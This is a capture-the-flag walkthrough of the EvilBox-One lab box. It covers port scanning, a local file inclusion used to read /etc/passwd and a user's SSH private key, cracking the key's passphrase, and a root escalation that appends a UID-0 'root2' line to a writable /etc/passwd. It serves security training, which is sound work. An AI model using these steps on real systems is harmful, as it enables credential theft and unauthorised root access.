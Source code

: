 # PG Play - EvilBox-One

#### Ip: 192.168.171.212
#### Name: EvilBox-One
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/EvilBox-One]
└─$ sudo nmap -p-  --min-rate 10000 192.168.171.212 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-18 14:25 CDT
Nmap scan report for 192.168.171.212
Host is up (0.081s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 4495500be473a18511ca10ec1ccbd426 (RSA)
|   256 27db6ac73a9c5a0e47ba8d81ebd6d63c (ECDSA)
|_  256 e30756a92563d4ce3901c19ad9fede64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.12 seconds
```

Heading to the site on port 80 we find a deafault Apache landing page:

site.png

Manually trying for a robots.txt page we find:

hello.png

Fuzzing for directories we find a `/secret/evil.php`

ferox.png

But navigating to the page, its just a blank page. 

Trying a few different directory traversals and continually getting blank pages rather than 404/ Not Found errors, made me wonder if the page was vulnerarble.

We can automate fuzzing for the vulnerabilty with ffuf:

nice, ffuf found something for us.

ffuf.png

We can navigate to http://192.168.171.212/secret/evil.php?command=/etc/passwd and confirm the vulnerability

etc.png

Note: I always prefer to view LFIs in the page source because the formatting is usually cleaner and more readable.

### Exploitation

Its great we found this vulnerability, but in and of itself its not too useful to us yet.

Looking through the `/etc/passwd` file we see there is a user named mowree:

```
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
```

Because we now that SSH is also open on the target, lets see if we can access their SSH key:

Nice that worked!

id.png

Chnging the mode and trying to use the key we see it is passphrase protected.

```text
┌──(ryan㉿kali)-[~/PG/EvilBox-One]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/EvilBox-One]
└─$ ssh -i id_rsa  mowree@192.168.171.212               
The authenticity of host '192.168.171.212 (192.168.171.212)' can't be established.
ED25519 key fingerprint is SHA256:0x3tf1iiGyqlMEM47ZSWSJ4hLBu7FeVaeaT2FxM7iq8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.171.212' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
```

No worries, lets try to crack the passphrase using ssh2john:

john.png

Cool, now that we have the passphrase we can SSH in and grab the local.txt flag:

user_flag.png

### Privilege Escalation

Lets transfer over LinPEAS to help with enumeration:

transfer.png

Nice, LinPEAS finds that the `/etc/passwd` file is writable.

write.png

This should be a quick path to root:

```text
mowree@EvilBoxOne:/tmp$ openssl passwd fake
nypzT0GRtIljA
mowree@EvilBoxOne:/tmp$ echo "root2:nypzT0GRtIljA:0:0:root:/root:/bin/bash" >> /etc/passwd
mowree@EvilBoxOne:/tmp$ su root2
Contraseña: 
root@EvilBoxOne:/tmp# whoami
root
```
Nice, that worked. We can now grab the proof.txt flag:

root_flag.png

Thanks for following along!

-Ryan

-----------------------------------------------------



